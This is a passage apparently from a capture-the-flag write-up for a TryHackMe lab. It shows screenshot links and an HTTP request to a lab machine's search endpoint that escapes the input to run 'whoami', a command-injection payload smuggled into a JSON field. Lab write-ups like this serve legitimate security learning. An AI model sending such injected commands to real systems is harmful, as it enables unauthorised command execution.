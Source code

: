 ![writeup.enumeration.steps.6.3](/static/files/posts_thm_yotf/screenshot04.png.webp)  

![writeup.enumeration.steps.6.4](/static/files/posts_thm_yotf/screenshot05.png.webp)  

7\. We find a way to escape the search input and get command execution on the target machine:  
```
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\";whoami\n"}
```
